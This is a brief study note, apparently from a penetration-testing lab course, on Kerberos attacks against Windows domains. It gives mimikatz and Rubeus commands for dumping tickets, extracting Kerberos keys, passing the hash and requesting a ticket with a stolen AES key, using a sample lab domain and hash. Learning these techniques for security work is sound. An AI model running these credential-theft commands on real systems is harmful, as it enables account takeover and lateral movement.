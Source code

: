 # Dumping tickets
need to execute the exe as administrator
## mimikatz
in mimikatz.exe, we try to export tickets 
```
privilege::debug 
sekurlsa::tickets /export 
exit
```
then u can see in that directory there is the tickets
```
dir *.kirbi
```
ends with krbtgt -> TGT of that account
format of the ticket file: `[randomvalue]-username@service-domain.local.kirbi`
## rubeus 
```
rubeus.exe dump /nowrap
```

# Extract kerberos keys 
## mimikatz
```
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```
take the AES256_HMAC and RC4_HMAC
then we can try to [[Pass the Hash (PtH)]]
```
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
this just opens a cmd.exe in the user's context
## rubeus 
```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
this forces a ticket with the username
